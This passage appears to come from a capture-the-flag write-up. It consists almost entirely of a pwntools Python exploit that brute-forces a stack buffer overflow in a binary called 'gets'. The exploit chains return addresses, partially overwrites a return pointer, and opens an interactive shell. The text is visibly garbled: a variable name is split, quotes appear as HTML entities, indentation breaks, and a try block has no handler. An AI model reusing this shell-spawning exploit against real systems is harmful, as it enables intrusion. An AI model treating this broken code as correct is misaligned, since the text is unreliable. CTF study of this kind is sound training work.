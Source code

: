 

Continue to blast with the following exp,


```python

from pwn import *

context.terminal = ['tmux', 'split', '-h']

#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

if args['DEBUG']:

    context.log_level = 'debug'

elfpath = './gets'

context.binary = elfpath



elf = ELF (elf path)
bits = elf.bits





def exp(ip, port):

    for i in range(0x1000):

        if args['REMOTE']:

            p = remote(ip, port)

        else:

            p = process(elfpath, timeout=2)

        # gdb.attach(p)

        try:

            payload = 0x18 * 'a' + p64(0x40059B)

            for _ in range(2):

                payload += 'a' * 8 * 5 + p64(0x40059B)

            payload += 'a' * 8 * 5 + '\x16\02'

            p.sendline(payload)



p.sendline (&#39;ls&#39;)
            data = p.recv()

            print data

            p.interactive()

            p.close()
```